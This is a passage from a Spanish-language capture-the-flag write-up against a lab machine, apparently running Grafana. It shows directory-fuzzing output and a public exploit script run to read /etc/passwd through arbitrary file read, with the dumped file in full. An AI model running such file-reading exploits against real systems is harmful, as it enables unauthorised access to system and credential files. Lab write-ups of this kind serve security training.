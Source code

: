 ```bash
401        1l        1w       27c http://10.10.11.183:3000/api.txt
401        1l        1w       27c http://10.10.11.183:3000/api.html
302        2l        2w       31c http://10.10.11.183:3000/public
302        2l        2w       36c http://10.10.11.183:3000/public/test
302        2l        2w       40c http://10.10.11.183:3000/public/test/lib
302        2l        2w       35c http://10.10.11.183:3000/public/app
200      184l      690w        0c http://10.10.11.183:3000/signup
302        2l        2w       38c http://10.10.11.183:3000/public/emails
302        2l        2w       36c http://10.10.11.183:3000/public/maps
200        2l        4w       26c http://10.10.11.183:3000/robots.txt
```

Si probamos con el **exploit** vemos que si funciona pero también lo vamos a explotar manual

```bash
❯ python3 50581.py -H http://10.10.11.183:3000
Read file > /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
developer:x:1000:1000:developer:/home/developer:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
grafana:x:113:118::/usr/share/grafana:/bin/false
mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false
consul:x:997:997::/home/consul:/bin/false

Read file >
```
